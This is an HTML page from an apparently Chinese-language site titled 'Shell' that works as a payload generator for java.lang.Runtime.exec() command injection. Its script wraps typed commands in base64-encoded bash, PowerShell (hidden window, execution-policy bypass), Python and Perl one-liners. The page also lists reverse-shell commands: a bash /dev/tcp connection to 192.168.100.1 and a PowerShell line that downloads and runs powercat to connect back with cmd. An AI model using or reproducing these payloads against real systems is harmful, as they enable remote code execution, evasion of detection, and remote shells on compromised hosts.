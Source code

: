 ```yaml
---
layout: page
title: Shell
---
```

<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>java.lang.Runtime.exec() Payload</title>
</head>
<body>
<h1>java.lang.Runtime.exec() Payload</h1>
<input type="radio" id="bash" name="option" value="bash" onclick="processInput();" checked=""><label for="bash">Bash</label>
<input type="radio" id="powershell" name="option" value="powershell" onclick="processInput();"><label for="powershell">PowerShell</label>
<input type="radio" id="python" name="option" value="python" onclick="processInput();"><label for="python">Python</label>
<input type="radio" id="perl" name="option" value="perl" onclick="processInput();"><label for="perl">Perl</label><p></p>
<p><textarea rows="10" style="width: 100%; box-sizing: border-box;" id="input" placeholder="Type input here..."></textarea>
<textarea rows="5" style="width: 100%; box-sizing: border-box;" id="output" onclick="this.focus(); this.select();" readonly=""></textarea></p>
<script>
  var taInput = document.querySelector('textarea#input');
  var taOutput = document.querySelector('textarea#output');
    function processInput() {
        var option = document.querySelector('input[name="option"]:checked').value;
            switch (option) {
              case 'bash':
                taInput.placeholder = 'Type Bash here...';
                taOutput.value = 'bash -c {echo,' + btoa(taInput.value) + '}|{base64,-d}|{bash,-i}';
                break;
              case 'powershell':
                taInput.placeholder = 'Type PowerShell here...';
                poshInput = '';
                for (var i = 0; i < taInput.value.length; i++) { poshInput += taInput.value[i] + unescape("%00"); }
                taOutput.value = 'powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ' + btoa(poshInput);
                break;
              case 'python':
                taInput.placeholder = 'Type Python here...';
                taOutput.value = "python -c exec('" + btoa(taInput.value) + "'.decode('base64'))";
                break;
              case 'perl':
                taInput.placeholder = 'Type Perl here...';
                taOutput.value = "perl -MMIME::Base64 -e eval(decode_base64('" + btoa(taInput.value) + "'))";
                break;
              default:
                taOutput.value = ''
            }
        if (!taInput.value) taOutput.value = '';
    }
taInput.addEventListener('input', processInput, false);
</script>

<b>Bash反弹命令：</b>
<p style="color:red;">bash -i &gt;&amp; /dev/tcp/192.168.100.1/88 0&gt;&amp;1</p>
<br>
<b>PowerShell反弹命令：</b>
<p style="color:red;">powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c IP -p 端口 -e cmd</p>
<br>
</body>
</html>

